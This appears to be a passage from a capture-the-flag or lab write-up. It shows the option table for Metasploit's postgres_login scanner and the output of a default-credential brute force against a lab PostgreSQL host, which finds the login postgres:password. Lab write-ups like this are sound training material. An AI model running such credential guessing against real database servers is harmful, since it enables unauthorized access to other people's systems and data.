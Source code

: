 ```bash
   DB_ALL_USERS      false                                               no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                              no        A specific password to authenticate with
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/pos  no        File containing passwords, one per line
                     tgres_default_pass.txt
   Proxies                                                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RETURN_ROWSET     true                                                no        Set to true to see query result sets
   RHOSTS                                                                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metas
                                                                                   ploit.html
   RPORT             5432                                                yes       The target port
   STOP_ON_SUCCESS   false                                               yes       Stop guessing when a credential works for a host
   THREADS           1                                                   yes       The number of concurrent threads (max one per host)
   USERNAME                                                              no        A specific username to authenticate as
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/pos  no        File containing (space-separated) users and passwords, one pair per line
                     tgres_default_userpass.txt
   USER_AS_PASS      false                                               no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/pos  no        File containing users, one per line
                     tgres_default_user.txt
   VERBOSE           true                                                yes       Whether to print output for all attempts
```

# What are the credentials you found?
- exploit / executes the module with the options you set
- reveals successful login with the credentials postgres:password
```bash
msf6 auxiliary(scanner/postgres/postgres_login) > exploit

[!] No active DB -- Credential data will not be saved!
[-] 10.10.51.200:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: postgres:postgres@template1 (Incorrect: Invalid username or password)
[+] 10.10.51.200:5432 - Login Successful: postgres:password@template1
[-] 10.10.51.200:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 10.10.51.200:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
```